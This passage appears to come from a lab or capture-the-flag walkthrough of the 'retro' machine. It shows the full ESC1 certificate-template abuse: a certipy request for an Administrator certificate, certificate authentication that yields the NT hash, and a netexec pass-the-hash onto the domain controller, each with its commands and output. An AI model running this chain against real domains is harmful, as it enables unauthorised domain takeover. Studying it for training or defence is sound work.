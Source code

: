 - ✅ `RETRO.VL\Domain Computers` have enrollment rights - we control the `banking$` computer account. 
- ✅ `Requires Manager Approval` is set to `False`
- ✅ `Authorized Signatures Required` is set to `0`
- ✅ The `Extended Key Usage` is set to `Client Authentication` meaning we can use this certificate to authenticate in the domain
- ✅ The `Enrollee Supplies Subject` is set to `True`, meaning that requestors can specify a SAN. 

Now that we know the `RetroClients` template is vulnerable to ESC1, we can request a certificate with `certipy`. 

```console
➜  retro certipy req -dc-ip $ip -u 'banking$' -p 'Password123' -ca retro-DC-CA -template RetroClients -upn Administrator -key-size 4096
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 10
[*] Got certificate with UPN 'Administrator'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'administrator.pfx'
```

Now we can authenticate using that certificate. 

```console
➜  retro certipy auth -pfx administrator.pfx -username administrator -domain retro.vl -dc-ip $ip
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: administrator@retro.vl
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@retro.vl': aad3b435b51404eeaad3b435b51404ee:252fac7066d93dd009d4fd2cd0368389
```

Perfect! We've got an NTLM hash for the domain administrator. We can pass that hash with `netexec`. Here we find that we're able to authenticate with that NT hash, and that we do in fact have administrative access on the machine, indicated by `(Pwn3d!)`. We can now use that hash to log in as the administrator and grab the last flag. 

```console
➜  retro nxc smb $ip -u 'administrator' -H '252fac7066d93dd009d4fd2cd0368389'
SMB         10.10.88.241    445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:retro.vl) (signing:True) (SMBv1:False)
SMB         10.10.88.241    445    DC               [+] retro.vl\administrator:252fac7066d93dd009d4fd2cd0368389 (Pwn3d!)
```



